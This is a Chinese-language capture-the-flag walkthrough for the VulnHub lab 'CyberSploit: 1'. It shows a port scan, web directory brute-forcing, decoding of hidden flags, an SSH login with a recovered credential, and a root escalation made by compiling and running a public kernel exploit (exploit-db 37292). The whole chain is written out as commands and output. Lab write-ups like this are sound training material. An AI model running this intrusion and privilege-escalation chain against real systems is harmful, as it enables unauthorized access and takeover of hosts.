


# CYBERSPLOIT: 1

> https://download.vulnhub.com/cybersploit/cybersploit.ova

靶场IP：`192.168.2.17`

扫描对外端口服务

```
┌──(root㉿kali)-[/tmp]
└─# nmap -p1-65535 -sV 192.168.2.17
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 10:33 EDT
Nmap scan report for 192.168.2.17
Host is up (0.000078s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
MAC Address: 08:00:27:48:83:0B (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.47 seconds

```

爆破web目录

```
┌──(root㉿kali)-[/tmp]
└─# dirb http://192.168.2.17/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep  8 10:35:55 2022
URL_BASE: http://192.168.2.17/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.2.17/ ----
+ http://192.168.2.17/cgi-bin/ (CODE:403|SIZE:288)                                                                                                                                                                                         
+ http://192.168.2.17/hacker (CODE:200|SIZE:3757743)                                                                                                                                                                                       
+ http://192.168.2.17/index (CODE:200|SIZE:2333)                                                                                                                                                                                           
+ http://192.168.2.17/index.html (CODE:200|SIZE:2333)                                                                                                                                                                                      
+ http://192.168.2.17/robots (CODE:200|SIZE:79)                                                                                                                                                                                            
+ http://192.168.2.17/robots.txt (CODE:200|SIZE:79)                                                                                                                                                                                        
+ http://192.168.2.17/server-status (CODE:403|SIZE:293)                                                                                                                                                                                    
                                                                                                                                                                                                                                           
-----------------
END_TIME: Thu Sep  8 10:35:57 2022
DOWNLOADED: 4612 - FOUND: 7

```

访问80端口


查看页面源代码，找到一个用户名：`itsskv`



访问`/hacker`


访问`/robots.txt  `

```
┌──(root㉿kali)-[/tmp]
└─# curl http://192.168.2.17/robots.txt            
R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9 

                                                                                                                                                                                                                                            
┌──(root㉿kali)-[/tmp]
└─# echo 'R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9' | base64 -d
Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit} 
```

使用`itsskv`登录ssh，密码是`cybersploit{youtube.com/c/cybersploit}`

```
┌──(root㉿kali)-[/tmp]
└─# ssh itsskv@192.168.2.17                                                                        
The authenticity of host '192.168.2.17 (192.168.2.17)' can't be established.
ECDSA key fingerprint is SHA256:19IzxsJJ/ZH00ix+vmS6+HQqDcXtk9k30aT3K643kSs.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.2.17' (ECDSA) to the list of known hosts.
itsskv@192.168.2.17's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

332 packages can be updated.
273 updates are security updates.

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

Last login: Sat Jun 27 10:14:39 2020 from cybersploit.local
itsskv@cybersploit-CTF:~$ sudo -l
[sudo] password for itsskv: 
Sorry, user itsskv may not run sudo on cybersploit-CTF.

```

发现`flag2.txt`

```
itsskv@cybersploit-CTF:~$ cat flag2.txt 
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101

```

使用[CyberChef](https://gchq.github.io/CyberChef/)解密二进制

```
good work !
flag2: cybersploit{https:t.me/cybersploit1}
```



使用https://www.exploit-db.com/exploits/37292进行提权

```
itsskv@cybersploit-CTF:/tmp$ gcc 37292.c -o exploit
itsskv@cybersploit-CTF:/tmp$ chmod +x exploit 
itsskv@cybersploit-CTF:/tmp$ ./exploit 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
# ls /root
finalflag.txt
# cat /root/fin*
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     
                                                                                                                  

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
# 

```

